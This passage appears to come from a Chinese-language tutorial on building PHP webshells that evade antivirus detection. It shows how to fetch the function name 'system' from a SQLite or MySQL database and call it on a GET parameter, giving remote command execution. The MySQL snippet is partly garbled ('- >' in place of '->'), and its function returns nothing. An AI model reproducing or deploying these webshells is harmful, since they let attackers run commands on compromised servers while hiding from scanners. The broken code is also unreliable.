 ##

## 6# 数据库连接函数

###

### 6.0 Tips

可以尝试通过读取数据库内的内容，来获取敏感关键词或者拿到执行命令的关键语句，就可以拼接到php中执行恶意的代码了。

###

### 6.1 Sqlite数据库

配合我上面写的 `file_put_contents()` 文件写入函数，先写入本地Sqlite文件然后读取敏感内容

  *   *   *   *   *   *   *   * 

    
    
    $path = "AabyssZG.db";$db = new PDO("sqlite:" . $path);//连接数据库后查询敏感关键词$sql_stmt = $db->prepare('select * from test where name="system"');$sql_stmt->execute();//提权敏感关键词并进行拼接$f = substr($sql_stmt->queryString, -7, 6);$f($_GET['aabyss']);       //system($_GET['aabyss']);

### 6.2 MySQL数据库

这里使用 `MySQLi()` 这个函数，其实PHP有很多MySQL连接函数，可自行尝试

然后通过这个函数，连接公网数据库（只要目标能出网），即可连接并获得敏感字符拼接到php中

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    function coon($sql) {    $mysqli = new MySQLi("localhost", "test", "test123", "test");    //默认的 MySQL的类，其属性与方法见手册    if ($mysqli - > connect_error) {        //connect_error为属性，报错        die("数据库连接失败：".$mysqli - > connect_errno. "--".$mysqli - > connect_error);        // connect_errno:错误编号    }    $mysqli - > select_db("test"); //选择数据库    // 返回值 $res 为资源类型（获取到结果的资源类型）    $res = $mysqli - > query($sql) or die($mysqli - > error);    //释放结果集，关闭连接    $mysqli - > close();}$sql = "select * from test where name LIKE 'system'";$arr = coon($sql);$res = array("data" => $arr);echo json_encode($res);

##

## 7# PHP过滤器

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230624181154.png)

#

# 三、Webshell免杀

##

## 学习后的免杀效果
